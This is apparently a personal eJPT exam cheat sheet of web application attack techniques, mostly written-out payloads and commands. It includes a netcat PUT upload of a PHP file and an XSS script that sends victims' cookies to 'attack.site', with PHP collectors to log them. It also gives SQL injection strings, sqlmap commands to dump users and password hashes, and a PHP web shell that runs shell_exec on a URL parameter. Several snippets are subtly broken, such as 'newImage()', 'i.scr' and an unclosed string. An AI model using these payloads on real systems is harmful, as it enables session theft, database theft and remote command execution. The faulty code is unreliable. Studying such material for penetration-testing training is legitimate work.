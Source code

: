 # Web Application Tools
 My list of Web Application tools for the eJPT exam.

-------------------------------------

## *HTTP Protocol and Fingerprinting*

1. Netcat
    * nc [targetAddress] 80

2. OpenSSL s_client -connect [targetAddress:443]

3. httprint -P0 -h [targetAddress] -s /usr/share/httprint/signatures.txt

-------------------------------------

## *HTTP Verbs - Use in Burpsuite*

### (Can be used on misconfigured web servers)

- GET - Request a webpage
- HEAD - Request Header information
- POST - Post form data (eg, username, password)
- PUT - Create an arbitrary file on the server
- DELETE - Delete/remove file from the server
- OPTIONS - Check communications option

"GET" Example:

    GET /page.php?comman=pwd HTTP/1.1
    Host: www.host.com


"POST" Example:

    POST /login.php? HTTP/1.1
    Host: www.host.com


    username=admin&password=1234


"DELETE" Example:

    DELETE /wp-content/imp.file HTTP/1.1
    Host: www.host.com

"PUT" Example: 
    
    $wc -m payload.php
    20 payload.php

    $nc [targetAddress] 80
    PUT /payload.php HTTP/1.0
    Content-type: text/html
    Content-length: 20


    <?php phpinfo(); ?>

-------------------------------------

## *Dirbuster(GUI)/Gobuster/Dirb*

* Search for interesting file types
    * php
    * txt
    * bak
    * old

    $gobuster dir --url http://host.com/ -w /path/to/word.list -x php,txt,old,bak -o output.txt

    $dirb http://host.com/ /path/to/word.list -X php,txt,bak,old -o output.txt

    $dirb https://host.com/ (Simple SSL test)

*Tips: Searh for **Signup pages** and **old configuration files.***

-------------------------------------

## Cross-Site Scripting

* Session Cookies
    * document.cookie - This is where the cookies are stored

    *Display cookie as an alert*
    ``` 
    [<script>alert(document.cookie)</script>]
    ```
    *Victim's Browser* <--- **Inject this piece of code!**
    ```
    <script>
    var i = newImage();
    i.scr="http://attack.site/log.php?="+document.cookie;
    </script>
    ```

    *Attacker's Computer*
    ```
    <?php
    $filename="/tmp/log.txt;
    $fp=fopen($filename, 'a');
    $cookie=$_GET['q'];
    fwrite($fp, $cookie);
    fclose($fp);
    ?>
    ```
    *Alternate code*

    ```
    <?php
    $ip = $_SERVER['REMOTE_ADDR'];
    $browser = $_SERVER['HTTP_USER_AGENT'];

    $fp = fopen('jar.txt', 'a');

    fwrite($fp, $ip.' '. $browser." \n");
    fwrite($fp, urldecode($_SERVER('QUERY_STRING')). " \n\n");
    fclose($fp);
    ?>
    ```
-------------------------------------
## SQL-Injection

*Tip: Look at the source code to check for any IDs such as src="images/***els1***"!*
* SQL Statements

```
SELECT * FROM table WHERE <condition>;
```

Putting comments in statements
```
# Hash symbol
-- Double hyphens followed by a whitespace (add a space and another hyphen "-- -")

Select * FROM table; # Comment
Select * FROM table; -- Another comment
```

* BOOLEAN Attacks

````
SELECT * FROM items WHERE id='' OR '1' = '1'; -- -'
````

* Union Attacks

```
SELECT * FROM items WHERE id='' UNION SELECT null, null, null; -- -'
```

## SQLmap switches

```
Example:

$sqlmap -u "http://10.10.10.10/get.php?id=1234" -p id --technique=U

$sqlmap -u "http://10.10.10.10/login.php" --data "username=admin&password=1234" -p username --technique=B --banner
```

* -u URL
* -p vulnerable parameter
* --data data to be sent through a POST request (username=admin&password=1234)
* --banner Retrieve DBMS banner
* --users Enumerate DBMS users
* --passwords Enumerate DBMS Users hashed passwords
* --dbs Enumerate DBMS databases
* -D Database to enumerate (insert found database name)
* --tables Enumerates tables in the given database name
* -T Table name to enumerate (insert table name. E.g, Users, Accounts, etc)
* --columns Enumerate table columns
* -C Column name to enumerate (E.g., -C username,password)
* --dump Dumps all the table entries
* -r Load HTTP request from a file (Save the request from Burpsuite)
* --flush-session (Flushes the session files for the current target. Restarts the session again)





-------------------------------------

## *Reverse Shell Links*

[Pentest Monkey Website] (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[GTFOBins Website] (https://gtfobins.github.io/)


Example PHP Reverse Shell:

    <?php 
    if (isset($_GET['cmd']))
    {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
    }
    ?>

